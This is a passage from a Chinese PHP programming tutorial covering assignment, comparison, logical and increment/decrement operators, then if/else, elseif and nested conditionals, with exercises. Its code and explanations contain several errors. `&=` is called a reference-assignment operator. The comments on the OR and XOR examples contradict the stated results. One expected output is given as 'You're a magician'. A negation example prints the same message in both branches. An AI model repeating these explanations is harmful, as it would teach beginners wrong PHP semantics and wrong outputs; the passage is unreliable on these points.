

**组合赋值运算符 `.=`** 该运算符**用于**将一个字符串与另一个现有字符串连接，然后将结果赋值给运算符左侧的变量。

例如，如果你有一个包含字符串 "Hello" 的变量 `$message`，并且想要向该字符串追加 "world!"，可以像这样使用 `.=` 运算符：

```php
<?php

 $message = "Hello ";

 $message .= "world!";

?>
```

执行此代码后，`$message` 变量将包含字符串 "Hello world!"。

**引用赋值运算符 (`&=`) **：此运算符用于将一个变量的引用赋值给另一个变量。这意味着两个变量指向内存中的同一个值。

示例：

```php
<?php

 // 引用赋值运算符

 $message1 = "Hello ";

 $message2 = &$message1; // $message2 指向与 $message1 相同的值

 $message2 .= "monde !"; // 将 "monde !" 连接到 $message1

 echo "\$message2 after applying the &= and .= operators: $message1 <br>";

 echo "\$message1 after &= and .= operators: $message1 <br>";

?>
```

在本例中，变量 `$message1` 被声明并初始化为字符串 "Hello"。

通过使用引用赋值运算符 (`&=`)，`$message2` 变量被赋予与 `$message1` 变量相同的值。

接下来，使用连接运算符 `.=` 将字符串 "world!" 连接到变量 `$message2`，这也会修改 `$message2` 的值。但 `$message1` 的值也会被修改，因为 `$message1` 和 `$message2` 通过引用关联。执行此代码产生以下结果：



##### 比较运算符

PHP 中的比较运算符用于比较变量值，并根据比较产生布尔结果（true 或 false）。下表说明了 PHP 中可用的主要比较运算符。

| 运算符 | 用法 | 含义 |
| --- | --- | --- |
| `==` | `$a == $b` | 检查 `$a` 和 `$b` 的值是否相等，不考虑类型 |
| `===` | `$a === $b` | 检查两个值是否相等且类型相同 |
| `!=` | `$a != $b` | 检查两个值是否不同，不考虑类型 |
| `<>` | `$a <> $b` | 作用同 `!=` |
| `!==` | `$a !== $b` | 检查两个值是否不同**或**类型不同 |
| `<` | `$a < $b` | 检查 `$a` 是否小于 `$b` |
| `>` | `$a > $b` | 检查 `$a` 是否大于 `$b` |
| `<=` | `$a <= $b` | 检查 `$a` 是否小于或等于 `$b` |
| `>=` | `$a >= $b` | 检查 `$a` 是否大于或等于 `$b` |

相等运算符示例：

```php
<?php

 $a = 5;

 $b = "5";

 $result = ($a == $b);

 echo $result;

?>
```

在本例中，存储在变量 `$result` 中的值为 "**true**"，因为变量 `$a` 和 `$b` 在值方面是相等的。如果运行此代码，你将得到变量 `$result` 的值为 1，这对应布尔值 **true**。

然而，如果你将 `(==)` 运算符替换为 `(===)` 运算符，代码执行将显示 0，这对应变量 `$result` 的布尔值 **false**。

```php
<?php

 $a = 5;

 $b = "5";

 $result = ($a === $b);

 echo $result;

?>
```

不等运算符示例：

```php
<?php

 $a = 5;

 $b = 10;

 $result = ($a != $b);

 echo $result;

?>
```

执行此代码显示值 1，对应布尔值 true（存储在变量 `$result` 中的值），因为变量 `$a` 和 `$b` 具有不同的值。

严格不等运算符 (`!==`) 示例：

```php
<?php

 $a = 5;

 $b = "5";

 $result = ($a !== $b);

 echo $result;

?>
```

在此代码中，变量 `$result` 被设置为 **true**，因为变量 `$a` 和 `$b` 具有不同的类型。事实上，`$a` 是 Integer 类型，而 `$b` 是 string 类型。

**太空船 (`<=>`) 比较运算符**：比较两个表达式。根据第一个表达式小于、等于或大于第二个表达式，分别返回 -1、0 或 1。

示例：

```php
<?php

 $a = 10;

 $b = 5;

 $c = 20;

 $result1 = ($a <=> $b);

 $result2 = ($a <=> $c);

 echo $result1;

 echo "<br>";

 echo $result2;

?>
```

运行此代码显示：

*   `$result1` 的值为 **1**，因为 `$a` 的值远大于 `$b` 的值。
*   `$result2` 的值为 **-1**，因为 `$a` 的值小于 `$c` 的值。

总之，PHP 中的比较运算符用于比较变量值，并根据比较产生布尔结果（true 或 false）。它们可用于验证相等性、差异性、优劣性以及值之间的其他比较。主要比较运算符包括 `==`、`===`、`!=`、`<>`、`!==`、`>`、`<`、`>=`、`<=` 和 `<=>`。它们对于在 PHP 脚本中评估条件和做出决策至关重要。

##### 逻辑运算符

PHP 中的逻辑运算符用于组合或反转布尔表达式（true 或 false）。正如你将在本书其余部分看到的，这些运算符常用于通过组合多个逻辑表达式来创建复杂条件。

下表说明了 PHP 中可用的主要逻辑运算符：

| 运算符 | 符号 | 用法 | 含义 |
| --- | --- | --- | --- |
| AND | `&&` | `$a && $b` | **AND**：如果 `$a` 和 `$b` 都为 true，则返回 true |
| OR | `||` | `$a || $b` | **OR**：如果 `$a` 或 `$b` 至少有一个为 true，则返回 true |
| XOR | `XOR` | `$a XOR $b` | 如果只有 `$a` 为 true 或只有 `$b` 为 true，则返回 true |
| 否定 | `!` | `!$a` | 返回布尔表达式的相反值 |

**AND 运算符 (`&&` 或 `and`)：** **AND** 运算符在所有组合的布尔表达式都为 true 时返回 true。

*   True `&&` True 结果为 True
*   True `&&` False 结果为 False
*   False `&&` True 结果为 False
*   False `&&` False 结果为 False

示例：

```php
<?php

 $a = 10 > 2;

 $b = 5 < 1;

 $result = ($a && $b); // $result 为 false，因为 $b 为 false

 echo $result;

?>
```

在此代码中，我们有两个比较表达式：

`$a = 10 > 2;` ：此表达式比较 10 是否大于 2。因为是这种情况，`$a` 取布尔值 true。


**`$b = 5 < 1;`** : 此表达式比较 5 是否小于 1。由于并非如此，`$b` 取布尔值 `false`。

然后我们有一个第三个表达式，它使用逻辑运算符 **`&&`** (AND) 来组合 `$a` 和 `$b` 的布尔值：

`$result = ($a && $b);` // `$result` 为 false，因为 `$b` 为 false

`&&` (AND) 运算符仅当两个组合表达式均为 true 时才返回 true。在本例中，由于 `$a` 为 true 而 `$b` 为 false，`$result` 取布尔值 false。

最后，执行此代码使用 `echo` 函数显示 `$result` 的值，显示 `false` 是因为 `$result` 为 false。

##### OR 运算符 (`||` 或 `or`)

**OR** 运算符如果组合的布尔表达式中至少有一个为 true，则返回 true。

*   `True || True` 结果为 `True`
*   `True || False` 结果为 `True`
*   `False || True` 结果为 `True`
*   `False || False` 结果为 `False`

示例：

```php
<?php
$a = 10 > 2;
$b = 5 < 1;
$result = ($a || $b); // $result 为 false，因为 $b 为 false
echo $result;
?>
```

在该代码中，变量 `$a` 和 `$b` 分别存储上一个示例中的表达式 `10 > 2` 和 `5 < 1`。

然而，`$result = ($a || $b);` 使用逻辑运算符 **`||`** (OR) 来组合 `$a` 和 `$b` 的布尔值。由于 `$a` 为 true 而 `$b` 为 false，表达式 `$a || $b` 评估为 true。因此，变量 `$result` 取值 true。

执行此代码显示 `$result` 变量的值，即 `1` (true)，因为 `$result` 包含值 true。

##### XOR (异或) 运算符

**XOR** 运算符是一种用于评估布尔表达式的逻辑运算符。当且仅当两个表达式中有且只有一个为 true 时，XOR 返回 true (或 1)，而不能同时为 true。如果两个表达式均为 true 或均为 false，XOR 返回 false (或 0)。

总之，XOR 可用以下真值表表示：

*   `True XOR True` 结果为 `False`
*   `True XOR False` 结果为 `True`
*   `False XOR True` 结果为 `True`
*   `False XOR False` 结果为 `False`

在编程术语中，XOR 运算符常用于执行需要满足“仅当两个表达式中有一个为真时结果才为真”这一条件的比较操作。

示例：

```php
// 变量定义
$x = 20;
$y = 10;
// 在表达式中使用 XOR 运算符
$result = ($x < 8 XOR $y > 5);
// 显示结果
echo $result; // 显示 "0" (false)，因为两个表达式均为 true
```

在本例中，表达式 `$x < 8` 为 false，因为 `$x` 的值为 20；表达式 `$y > 5` 为 true，因为 `$y` 的值为 10。由于两个表达式中只有一个为 true，XOR 运算的结果将为 true，在 PHP 中用 `1` 表示。

##### 运算符 `!` (NOT)

**`!` (NOT)** 运算符是一种逻辑一元运算符，用于反转布尔表达式的结果。它用于否定或反转表达式的布尔值。以下是带示例的总结：

```php
// 变量定义
$x = 20;
$y = 10;
$expression1 = ($x > $y);
$expression2 = !$expression1;
```

在该代码中，我们有两个变量 `$x` 和 `$y`，分别包含值 20 和 10。

接下来，我们有一个表达式 `$expression1`，它使用 `>` 比较运算符比较 `$x` 和 `$y`。由于 `$x` 为 20 而 `$y` 为 10，表达式 `$x > $y` 将为 true，因此 `$expression1` 评估为 true。

最后，我们有一个第二个表达式 `$expression2`，它使用 **`!` (NOT)** 运算符来反转 `$expression1` 的结果。由于 `$expression1` 为 true，**`!` 运算符**将其转换为 false，因此 `$expression2` 评估为 false。

简而言之，执行此代码后，`$expression1` 将为 true，而 `$expression2` 将为 false。

#### 自增和自减运算符

自增和自减运算符用于以更简洁高效的方式增加或减少数值变量的值。

##### 自增运算符 `++`

`++` 运算符用于将数值变量的值增加 1。

示例：

```php
<?php
$a = 5;
$a++; // 等同于 $a = $a + 1;
echo $a; // 显示 6
?>
```

在本例中，我们有一个初始化为值 5 的变量 `$a`。接下来，我们在 `$a` 变量上使用 `++` 自增运算符。该运算符将 `$a` 的值增加 1。

因此，`$a++` 操作后，`$a` 的值变为 6。所以，执行此代码会在屏幕上将 `$a` 的新值 (6) 显示为 "6"。

简而言之，`$a++` 操作将 `$a` 的值增加 1，从 5 变为 6。

##### 自减运算符 `--`

`--` 运算符用于将数值变量的值减少 1。

示例：

```php
<?php
$b = 10;
$b--; // 等同于 $b = $b - 1;
echo $b; // 显示 9
?>
```

在本例中，我们有一个初始化为值 10 的变量 `$b`。接下来，我们在 `$b` 变量上使用 `--` 自减运算符。该运算符将 `$b` 的值减少 1。

因此，`$b--` 操作后，`$b` 的值变为 9。所以，执行此代码使用 `echo` 函数显示 `$b` 的新值，即 9。

简而言之，`$b--` 操作将 `$b` 的值减少 1，从 10 变为 9，然后我们用 `echo` 显示了这个新值。

##### 注意

这些运算符可以前置使用（变量前）或后置使用（变量后），其行为会因位置不同而略有差异。

###### 前置用法示例

```php
<?php
$x = 5;
echo ++$x; // 显示 6 ($x 的值先增加，然后显示)
?>
```

在本例中，我们有一个初始化为值 5 的变量 `$x`。接下来，我们在 `$x` 变量上使用前置 `++` 自增运算符 (`++$x`)。

前置自增运算符（位于变量前）将 `$x` 的值增加 1，然后返回这个新值。因此，甚至在显示之前，`$x` 的值就已增加 1，从 5 变为 6。

简而言之，`++$x` 操作先将 `$x` 的值增加 1，然后在屏幕上显示这个新值。

###### 后置用法示例

另一方面，如果我们将 `++` 运算符放在变量 `$x` 后面，执行以下代码将显示 5（`$x` 的值先显示，然后增加）。

```php
<?php
$x = 5;
echo $x++; // 显示 5 ($x 的值先显示，然后增加)
?>
```

示例：

```php
<?php
$x = 5;
$y = 2;
echo ($x++) * ($y++);
?>
```

在本例中，我们有两个变量，`$x` 初始化为 5，`$y` 初始化为 2。然后我们分别使用后置自增运算符 (`$x++`) 和后置自增运算符 (`$y++`) 来增加 `$x` 和 `$y` 的值。然而，这些后置自增运算符意味着自增发生在它们所在表达式的求值之后。

因此，在求值表达式 `($x++) * ($y++)` 时，`$x` 和 `$y` 的值在自增前被使用。这意味着在此操作中，`$x` 仍为值 5，`$y` 仍为值 2。该操作随后表示为 `(5) * (2)`，结果为 10。

求值表达式后，`$x` 和 `$y` 的值被自增，因此 `$x` 变为 6，`$y` 变为 3。

现在将此结果与以下代码进行比较：

```php
<?php
$x = 5;
$y = 2;
echo (++$x) * (++$y);
?>
```

在本例中，我们分别使用前置自增运算符 (`++$x`) 和前置自增运算符 (`++$y`) 来增加 `$x` 和 `$y` 的值。前置自增运算符意味着自增发生在值被用于表达式之前。

因此，在求值表达式 `(++$x) * (++$y)` 时，`$x` 和 `$y` 的值在用于表达式前已被自增。这意味着表达式求值时 `$x` 变为 6，`$y` 变为 3。该表达式随后转化为 `(6) * (3)`，结果为 18。

求值表达式后，`$x` 和 `$y` 的值保持自增状态，因此 `$x` 为 6，`$y` 为 3。

##### `-` 运算符的后置和前置用法


PHP 中的递减运算符用 `--` 表示，其工作原理与递增运算符 `++` 相同，只不过它将变量的值减 1 而不是加 1。它可以通过两种方式使用：作为前缀 (`--$x`) 或作为后缀 (`$x--`)。

前缀递减运算符 (`--$x`) 在变量的值用于表达式之前对其进行递减。例如，如果 `$x` 最初为 5，`--$x` 将其值减为 4，然后返回 4。

后缀递减运算符 (`$x--`) 在变量的值用于表达式之后对其进行递减。例如，如果 `$x` 最初为 5，`$x--` 首先在表达式中使用值 5，然后将 `$x` 递减为 4。

#### 总结

在本章中，我们探讨了 PHP 编程的基础知识，重点关注变量、常量和运算符。我们了解到变量是 PHP 程序中存储和操作数据的基本元素。此外，我们还发现了选择有意义的变量名以及遵守良好的声明和使用实践的重要性。

另一方面，常量允许我们定义一旦定义就不能修改的不可变值。它们对于存储在整个程序执行过程中不会改变的值特别有用。

最后，我们探讨了 PHP 中不同类型的运算符，包括算术、逻辑、比较和赋值运算符。这些运算符使我们能够执行各种任务，例如数学计算、逻辑比较和变量值的操作。

通过结合这些概念，PHP 开发人员能够创建满足用户需求的动态、功能性程序。在接下来的章节中，我们将继续探讨高级 PHP 编程概念，以加强我们对这门强大语言的理解和技能。

#### 练习

#### 练习 1

编写一个 PHP 脚本，定义一个包含你名字的 `name` 变量和一个包含你年龄的 `age` 变量。接下来，该脚本应显示一条消息："Hello [your name], you're [your age] years old!"。

#### 练习 2

编写一个 PHP 脚本，将一个人的姓氏、名字和年龄存储在变量中，并使用连接运算符以句子的形式显示此信息。

#### 练习 3

编写一个 PHP 程序，将产品的价格存储在 `$price` 变量中，将数量存储在 `$quantity` 变量中，并通过将价格乘以数量来计算和显示订单的总金额。

### 第 2 章

### 条件结构

在编程中，条件结构对于根据特定条件执行代码块至关重要。在 PHP 这种广泛用于 Web 开发的编程语言中，掌握这些结构是编写高效、功能性代码的基础。

在本章中，我们将详细探讨 PHP 中可用的各种条件结构。我们的目标是为您提供对这些结构的透彻理解，并使您熟悉它们的实际用法。我们将研究条件语句，如 `if`、`else`、`elseif`、`switch` 以及 PHP 新版本中引入的新 `match` 结构。我们还将研究三元条件结构，以使您的代码更简洁、更易读。

通过一系列实际示例和用例，您将能够获得在自己的 PHP 项目中有效使用这些结构所需的技能。无论您是初学者还是经验丰富的开发人员，本章都将为您提供掌握 PHP 条件结构并编写健壮、功能性代码的坚实基础。

话不多说，让我们深入 PHP 控制结构的世界，发现它们如何用于创建动态、高性能的 Web 应用程序。

#### `if` 结构

`if` 结构用于在条件评估为 true 时执行代码块。如果条件为 false，则忽略与 `if` 结构关联的代码块。

`if` 结构的通用语法是：



关键字 `if` 后跟一对括号 `()`。

在括号内，指定您要评估的条件。此条件可以是一个结果为 true 或 false 的布尔表达式。

在条件之后，在大括号 `{ }` 之间打开一个代码块。此代码块包含如果条件评估为 true 将要执行的指令。

此控制结构仅允许在指定条件为 true 时执行代码块。如果条件为 false，则不执行代码块。

示例：

```php
<?php
$age = 20;
if ($age >= 18) {
    echo "You're over 18.";
}
?>
```

在本示例中，我们定义了一个值为 20 的变量 `$age`。`if` 控制结构检查 `$age` 的值是否大于或等于 18。如果条件为 true，即年龄为 18 岁或以上，则在屏幕上显示消息 "You are over 18"。否则，如果条件为 false（年龄小于 18），则不显示任何内容。在本示例中，由于 `$age` 的值为 20，执行此代码将显示句子 "You're a magician"。



#### `if...else` 结构

PHP 中的 `if...else` 控制结构允许您在条件为 true 时执行一个代码块，在条件为 false 时执行另一个代码块。以下是通用语法：



关键字 `if` 后跟括号 `()` 中的条件。如果条件评估为 true，则执行 `if` 后大括号 `{ }` 内的代码块。否则，如果条件评估为 false，则执行 `else` 后大括号 `{ }` 内的代码块。

`if` 语句后大括号 `{ }` 内的代码块包含条件为 true 时要执行的指令。

关键字 `else` 用于定义一个替代代码块，当 `if` 条件为 false 时将执行该代码块。

`else` 后大括号 `{ }` 内的代码块包含 `if` 中条件为 false 时要执行的指令。

示例：

```php
<?php
$age = 14;
if ($age >= 18) {
    echo "You're over 18.";
} else {
    echo "You're a minor.";
}
?>
```

在本示例中，如果变量 `$age` 的值大于或等于 18，则显示消息 "You're over 18."。否则，将显示消息 "You're a minor."。在本示例中，由于 `$age` 的值为 14，`if` 条件不满足，因此将执行 `else` 块。因此，代码执行将显示句子 "You're a minor."。



#### `if...elseif...else` 控制结构

`if...elseif...else` 结构允许您按顺序管理多个条件。当您需要评估多个不同情况时，这非常有用。

这种条件结构的第三种情况由三个块组成：`if` 块、`elseif` 块和 `else` 块。以下是此结构的语法：



`if (condition1) { ... }`：我们首先检查 `condition1` 是否为 true。如果是，则执行此指令块中的代码。这就像在说："如果这是真的，就做这个。"

`elseif (condition2) { ... }`：如果 `condition1` 为 false，我们继续检查 `condition2`。如果 `condition2` 为 true，则执行此块内的代码。这就像在说："如果第一件事不是真的，但这是真的，就做这个。"

`else { ... }`：如果 `condition1` 和 `condition2` 都不为 true，则执行此块中的代码。这是一种备选方案：如果不满足前面的任何条件，我们就执行这个。

简而言之，这有点像决策的级联。首先检查一个条件，如果第一个条件不满足则检查另一个，最后如果前面的条件都不满足，则有一个最后的手段。

示例：

```php
<?php
$grade = 75;
if ($grade >= 90) {
    echo "Excellent work!";
} elseif ($grade >= 80) {
    echo "Very good work!";
}
```


```php
} else {
    echo "Can do better";
}
?>
```

这段代码使用 `if...elseif...else` 结构来评估变量 `$grade` 的值，并根据该值显示一条消息。其工作原理如下：

1. 变量 `$grade` 初始化为值 `75`。
2. 程序首先通过 `if ($grade >= 90)` 条件检查 `$grade` 的值是否大于或等于 `90`。由于情况并非如此（`75` 不大于或等于 `90`），我们继续检查下一个条件。
3. 接着，程序通过 `elseif` 条件 `($grade >= 80)` 检查 `$grade` 的值是否大于或等于 `80`。由于 `75` 小于 `80`，此条件也不满足。
4. 最后，程序执行 `else` 子句中的代码块，因为之前的所有条件均未满足。它随即显示 "Can do better"。

简而言之，这段代码显示 "Can do better" 是因为 `$grade` 的值不够高，无法满足 `if` 和 `elseif` 代码块的条件。


请注意，在 PHP 中，你可以在一个 `if` 子句后使用任意数量的 `elseif` 子句。这允许你依次测试多个不同的条件，直到其中一个为真，或者直到所有条件都已测试且均为假。让我们按如下方式修改前面的示例：

```php
<?php
$grade = 64;

if ($grade >= 90) {
    echo "Excellent work!";
} elseif ($grade >= 80) {
    echo "Very good work!";
} elseif ($grade >= 70) {
    echo "Good work!";
} elseif ($grade >= 60) {
    echo "Average work!";
} elseif ($grade >= 50) {
    echo "Can do better!";
} else {
    echo "Change group";
}
?>
```

这段代码评估变量 `$grade` 的值，并根据该分数显示一条消息。

*   如果分数大于或等于 `90`，则显示消息 "Excellent work!"。
*   否则，如果分数大于或等于 `80` 但严格小于 `90`，则显示消息 "Very good work!"。
*   否则，如果分数大于或等于 `70` 但严格小于 `80`，则显示消息 "Good work!"。
*   否则，如果分数大于或等于 `60` 但严格小于 `70`，则显示消息 "Average work!"。
*   否则，如果分数大于或等于 `50` 但严格小于 `60`，则显示消息 "Can do better!"。
*   否则，如果不满足上述任何条件（即分数低于 `50`），则显示消息 "Change group"。

在本例中，分数为 `64`，因此显示消息 "Average work!"，因为这是在所有评估的条件中第一个满足的条件。



请注意，当你在初始 `if` 后依次使用多个 `elseif` 语句时，第一个评估为 `TRUE` 的 `elseif` 语句将被执行。换句话说，`elseif` 语句仅在前面的 `if` 和所有前面的 `elseif` 语句均评估为 `FALSE`，且你的 `elseif` 语句评估为 `TRUE` 时才会执行。这提供了一系列替代条件，其中每个 `elseif` 指令按顺序评估，直到满足某个条件，从而确保流畅且精确的控制逻辑。

#### 条件结构与布尔变量

如果 `if` 或 `elseif` 语句中要评估的条件是一个布尔变量，其行为非常简单直接。如果布尔变量包含值 `TRUE`，则评估为真 (`TRUE`)；如果包含值 `FALSE`，则评估为假 (`FALSE`)。

示例：

```php
<?php
$truth = true; // 声明一个值为 TRUE 的布尔变量

if ($truth) {
    echo "The condition is true."; // 此指令将被执行，因为 $truth 包含值 TRUE
} else {
    echo "The condition is false";
}
?>
```

在本例中，布尔变量 `$truth` 包含值 `TRUE`，因此 `if` 语句中的条件 `$truth` 评估为 `TRUE`，执行 `if` 代码块内的代码，显示 "The condition is true."。如果 `$truth` 变量包含值 `FALSE`，则将执行 `else` 代码块，显示 "The condition is false"。

在某些情况下，评估条件的否定更有意义。在前面的示例中，如果你想测试布尔变量 `$truth` 的否定，只需在条件中使用逻辑否定运算符 (`!`) 即可。具体做法如下：

```php
<?php
$truth = true; // 声明一个值为 TRUE 的布尔变量

if (!$truth) {
    echo "The condition is false."; // 此指令将被执行，因为 !$truth 评估为 FALSE
} else {
    echo "The condition is false";
}
?>
```

#### 条件嵌套

条件嵌套，也称为嵌套条件控制结构，是 PHP 编程中的常见做法。它由将一个条件语句放置在另一个条件语句内部组成。可以创建一系列嵌套的 `if` 语句来处理不同的条件，但随着条件数量的增加，这种方法很快会变得复杂。

以下是 PHP 中条件嵌套的示例：

```php
<?php
$grade = 17;

if ($grade >= 18) {
    echo "Excellent work!";
} else {
    if ($grade >= 16) {
        echo "Very good work!";
    } else {
        if ($grade >= 14) {
            echo "Good job!";
        } else {
            echo "Can do better!";
        }
    }
}
?>
```

如果你运行这段代码，应该会得到以下结果：



本示例中的代码是一系列嵌套的 `if` 语句，用于评估 `$grade` 变量，以根据学生的表现提供消息。

*   首先，代码检查分数是否为 `18` 或以上。如果是，则显示 "Excellent work!"。
*   如果第一个条件不成立，意味着分数低于 `18`。代码随后进入第二个条件，检查分数是否大于或等于 `16`。如果是，则显示 "Very good work!"。
*   如果第二个条件也不成立，意味着分数低于 `16`。代码随后进入第三个条件，检查分数是否大于或等于 `14`。如果是，则显示 "Good work!"。
*   最后，如果上述条件均不成立，分数低于 `14`，代码显示 "Can do better!"。

由于变量 `$grade` 的值为 `17`，第一个 `if` 语句的条件不成立，代码继续执行下一条语句。

第二个 `if` 语句（嵌套在第一个的 `else` 中）检查 `$grade` 是否大于或等于 `16`，这为真（`$grade = 17`），因此满足此条件并显示消息 "Very good work!"。

总之，嵌套控制结构（如前面示例中所用）对于基于多个条件做出决策非常有效。然而，随着条件数量的增加，代码的可读性和可维护性会迅速下降。嵌套控制结构的复杂性会使代码难以理解和管理，增加出错风险，并使未来的修改更加繁琐。

因此，必须密切关注代码的设计和可读性，尽可能避免过度嵌套的控制结构。只要可能，最好使用 `switch` 结构或函数等替代方案来简化代码逻辑，使其更易于理解和维护。

#### 多重条件

多重条件，也称为组合条件，允许我们在单个控制语句中评估多个布尔表达式。当我们需要同时检查多个标准以做出决策时，通常会使用这些条件。

使用逻辑运算符通过减少嵌套条件块的数量来简化控制结构。这使代码更易于阅读和维护。

##### 逻辑与运算符 (`&&`) 的使用


逻辑与运算符（`&&`）在所有组合条件均为真时返回 TRUE。示例如下：

```php
$a = 10;
$b = 25;
if ($a > 5 && $b < 100) {
    echo "You succeeded, condition true";
} else {
    echo "Sorry, condition false";
}
```

执行此代码将得到以下结果：

